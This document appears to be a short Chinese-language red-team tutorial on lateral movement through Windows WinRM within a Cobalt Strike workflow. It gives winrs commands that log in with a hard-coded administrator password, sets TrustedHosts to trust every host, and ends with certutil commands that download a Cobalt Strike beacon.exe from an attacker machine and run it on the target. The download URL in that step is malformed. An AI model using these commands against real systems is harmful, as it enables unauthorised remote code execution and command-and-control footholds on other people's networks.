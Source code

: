 ### [](#%E5%BC%80%E5%90%AF%E6%94%BB%E5%87%BB "开启攻击")开启攻击[](#%E5%BC%80%E5%90%AF%E6%94%BB%E5%87%BB)

1.  攻击机开启：

```css
winrm quickconfig -q
```

可通过`cs内置端口`扫描`5985`来判断目标主机是否开启 WinRM

[![](assets/1702372940-ac0ae149e388cfaa77c35e5c2e2d9ee2.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/45.png)

使用`ps`命令查看开启情况

```bash
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
```

**执行命令**

```bash
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ whoami
```

> 远程连接时可能会遇到以下错误

```bash
错误编号：-2133108526
Winrs error:WinRM 客户端无法处理该请求。可以在下列条件下将默认身份验证与 IP 地址结合使用：传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置 TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。有关如何设置 TrustedHosts 的详细信息，请运行以下命令：winrm help config。
```

在攻击机上执行下面这条命令，设置为信任所有主机，再去连接即可

```bash
winrm set winrm/config/Client @{TrustedHosts="*"}
```

上线 CS:

```bash
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1beacon.exe c:/beacon.exe"
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c c:/beacon.exe"
```
